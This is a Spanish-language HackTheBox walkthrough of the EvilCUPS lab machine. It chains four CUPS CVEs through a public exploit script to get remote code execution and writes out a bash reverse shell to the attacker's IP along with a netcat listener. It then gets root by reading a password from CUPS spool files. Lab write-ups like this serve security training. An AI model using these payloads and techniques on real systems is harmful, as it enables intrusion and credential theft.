

## Introducción

**[HackTheBox](https://app.hackthebox.com/profile/2035837)** es una plataforma diseñada para la práctica de hacking ético. En esta ocasión, abordaremos la máquina EvilCUPS. Nos encontraremos con el servicio CUPS (Common Unix Printing System) y haremos uso de una Vulnerability Chaining lo cual nos permitira obtener RCE (Remote Code Execution) mediante un exploit automatizado.

~~~
Platform: HackTheBox
OS: Linux
Level: Medium
~~~

## Scanning (Escaneo)

~~~
Target: 10.10.11.40
~~~

Inicialmente, usamos el comando **Ping**. Este utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. Específicamente, **Ping** envía un mensaje de “echo request” a una **dirección IP** y espera recibir un mensaje de “echo response” en respuesta. Este proceso nos permite verificar si una máquina en la red es accesible y medir el tiempo que tarda en recibir una respuesta (conocido como latencia). Ademas, podemos inferir que es una máquina **Linux** debido al **Time To Leave** (**ttl**) que en este caso es **63**, si fuese en su lugar **128** o un número cercano a este, sería una máquina **Windows**.

Como vemos, el paquete fue recibido por la máquina victima. Una vez verificada la conexión, empezamos a realizar un escaneo de multiples etapas con la herramienta **Nmap**. Primero, hacemos un escaneo de puertos abiertos.

- `sudo`: Ejecuta el comando con privilegios de superusuario.
- `nmap`: Herramienta de escaneo de redes.
- `-sS`: Escaneo TCP SYN, conocido como escaneo “sigiloso” porque no completa el handshake.
- `-p-`: Escanea todos los puertos (del 1 al 65535).
- `--open`: Muestra solo los puertos que están abiertos.
- `-Pn`: Omite la detección de host (asume que el host está activo).
- `-n`: No resuelve nombres de host (no intenta convertir IP a nombres).
- `--min-rate 5000`: Establece una tasa mínima de paquetes por segundo (aumenta la velocidad del escaneo).
- `10.10.11.40`: Dirección IP del objetivo.
- `-oG PortScan`: Guarda los resultados en formato “grepable”.

Vemos que tenemos los puertos **22/SSH** y **631/IPP**, procedemos a hacer un escaneo más detallado de los mismos con el fin de obtener más información. Esto lo haremos con la flag `-sCV`

## Enumeración (Enumeration)

#### 22/SSH

El servidor SSH tiene la versión **OpenSSH 9.2p1** y está en funcionamiento. De momento, no se observa ninguna vulnerabilidad para este servicio.

#### 631/IPP 

Realizamos una busqueda en internet para obtener información acerca del puerto **631**, es el **Protocolo de impresión de Internet (IPP)** que se ejecuta tanto en **TCP** como en **UDP**. Observamos en el escaneo que su versión es la **2.4.2** y además podemos inferir que se ejecuta una página web ya que nos informa `http-title: Home - CUPS 2.4.2` la cual es accesible.

**CUPS** está utilizando el puerto **631** para ofrecer una interfaz web para la administración de la impresora. La página web puede ser utilizada para configurar la impresora, ver el estado de la impresión, entre otras cosas.

Vemos que hay una impresora en estado inactiva con el nombre de `Canon_MB2300_series`, se observan descripción, ubicación, marca, modelo y estado. Si la seleccionamos podemos ver que hay una sección llamada "Trabajos"

Vemos que es posible "imprimir página de prueba", nos da el nombre de usuario Anonymous.

Al intentar la opción de "Establecer usuarios permitidos" nos redirige a `10.10.11.40:631/admin/` con el mensaje `Prohibido, you cannot access this page` por lo que no tenemos acceso.

## Vulnerabilities (Vulnerabilidades)

A la hora de investigar acerca de **CUPS** (Common Unix Printing System) y las posibles vulnerabilidades para la versión **2.4.2** encontré mucha información.

"Un atacante remoto no autenticado puede reemplazar silenciosamente las URL IPP de impresoras existentes (o instalar nuevas) con una maliciosa, lo que resulta en la ejecución de comandos arbitrarios (en la computadora) cuando se inicia un trabajo de impresión (desde esa computadora)." **[Fuentes:](https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/)**

**CVE's involucrados:**
- **CVE-2024-47176**
- **CVE-2024-47076**
- **CVE-2024-47175**
- **CVE-2024-47177**

Usaremos el script `evilcups.py` de **[ippsec](https://github.com/ippsec/evil-cups)** modificado al de **[OpenPrinting](https://github.com/OpenPrinting/cups-browsed/security/advisories/GHSA-rj88-6mr5-rcw8)** La explotación permite RCE (ejecución remota de comandos). El proceso de este seria basicamente:

**Paso 1: Escaneo de puerto UDP 631**
El atacante comienza escaneando el puerto **UDP 631** en la red para identificar si hay un servidor de impresión que esté escuchando en ese puerto. Si el puerto está abierto, el atacante puede enviar paquetes UDP al servidor.

**Paso 2: Envío de paquetes UDP maliciosos**
El atacante envía paquetes UDP maliciosos al servidor de impresión en el puerto 631. Estos paquetes contienen datos que se envían al servidor de impresión, que confía en cualquier paquete que llegue desde cualquier fuente (debido a la vulnerabilidad **CVE-2024-47176**).

**Paso 3: Control de datos enviados a la impresora**
El servidor de impresión procesa los paquetes UDP maliciosos y envía los datos a la impresora. Sin embargo, debido a la vulnerabilidad **CVE-2024-47076**, el servidor de impresión no valida ni sanitiza los datos que se envían a la impresora. Esto permite al atacante controlar los datos que se envían a la impresora.

**Paso 4: Agregar líneas al archivo PPD**
El atacante puede agregar líneas al archivo PPD (Printer Description File) que se utiliza para describir la impresora. Esto se logra mediante la vulnerabilidad **CVE-2024-47175**, que permite al atacante escribir datos maliciosos en el archivo PPD.

**Paso 5: Agregar parámetro 'foomatic-rip'**
El atacante agrega un parámetro 'foomatic-rip' al archivo PPD, que es un comando que se utiliza para procesar los datos de impresión. Sin embargo, debido a la vulnerabilidad **CVE-2024-47177**, el comando 'foomatic-rip' permite la ejecución de comandos arbitrarios.

**Paso 6: Ejecución remota de código (RCE)**
El atacante puede ejecutar comandos arbitrarios en el sistema de impresión mediante el parámetro 'foomatic-rip'. Esto permite al atacante ejecutar código malicioso en el sistema de impresión, lo que puede llevar a una ejecución remota de comandos (RCE).

Una vez hayamos entendido como funciona, empezamos clonando el respositorio

Ingresamos a la carpeta del repositorio y con `ls` observamos el script `evilcups.py` y un fichero `requirements.txt` para poder ejecutar el script necesitamos instalar el requerimiento **ippserver**. Para ello, crearemos un **entorno virtual** (virtual environment) temporal con **python** `python3 -m venv evilcups_env` el cual es necesario activar `source evilcups_env/bin/activate`

Una vez creado y activado el entorno virtual, ejecutamos `pip3 install -r requirements.txt` 

Con el requerimiento instalado, podremos usar el script `python3 evilcups.py -h` para ver los posibles comandos. Como vemos, debemos indicar nuestra ip local, la ip target y el comando a realizar.

## Exploitation (Explotación)

En mi caso el comando que usaré es una **Reverse Shell** encapsulada `"bash -c 'bash -i >& /dev/tcp/10.10.14.152/443 0>&1`"`

Al ejecutarla y luego de 30 segundos aproximadamente, crea una nueva impresora maliciosa llamada `HACKED_10_10_14_152` cuando eso pase, podemos parar el script con `CTRL + C` ya que luego entra en bucle.

 
Al ingresar a ella tenemos la misma información y opciones que la otra impresora

Con la diferencia de que al ponernos en escucha mediante **NetCat** `nc -lnvp 443` al puerto seleccionado en la **Reverse Shell**, en mi caso **443** y al darle en "Imprimir página de prueba" 

Tendremos **Ejecución Remota de Comandos (RCE)** y como vemos somos el usuario `lp`

En primer lugar haremos **tty treatment** para mayor comodidad a la hora de ejecutar comandos y evitar problemas innecesarios.

## Privilege Escalation (Escalada de Privilegios)

Ejecutamos el comando `sudo -l` para listar los permisos **sudo** del usuario actual y vemos qué no los tiene por lo que procedemos a realizar el comando `find / -perm -4000 2>/dev/null` que realiza una búsqueda en el sistema de archivos que tengan el bit **SUID (Set User ID)** activado

Como no encontramos ningun binario con el bit **SUID** del cual aprovecharnos para escalar privilegios procedemos a leer la documentación de **CUPS** (principalmente como está organizado el servicio) con el objetivo intentar encontrar más información, como credenciales de autenticación, nombres de usuarios, rutas de acceso a archivos, etc. Encontramos la página **[CUPS Design Description](cups.org/doc/spec-design.html)** la cual nos da una visión de como se organiza **CUPS**.

Encontramos una ruta `/var/spool/cups` la cual por lo que veo es donde se almacenan los archivos de los trabajos (jobs). 

Hay dos tipos de archivos que se encuentran en ese directorio: _archivos de control_ que comienzan con la letra "**c**" ("**c00001**", "**c99999**", "**c100000**", etc.) y _archivos de datos_ que comienzan con la letra "**d**" ("**d00001-001**", "**d99999-001**", "**d100000-001**", etc.) 

Nos dirigimos a la ruta `/var/spool/cups` e intentamos enlistar el contenido con `ls` pero lo niega ya que no tenemos permisos. Esto es debido a que `ls` necesita permisos de de lectura y ejecución (r y x) 

Intentaremos con `cat` que solo pide permisos de lectura (r) al archivo `d00001-001` ya que nos interesan más los archivos de datos. Como vemos, funcionó y nos muestra multiples datos.

Al final del archivo `d00001-001` nos encontramos con una posible **contraseña**: `Br3@k-G!@ss-r00t-evilcups`

Ingresamos la contraseña con `su` y vemos que funcionó, verificamos si somos **root** con `id` o  `whoami`

Una vez somos **root** hemos finalizado la máquina. Restaria encontrar las flags.

 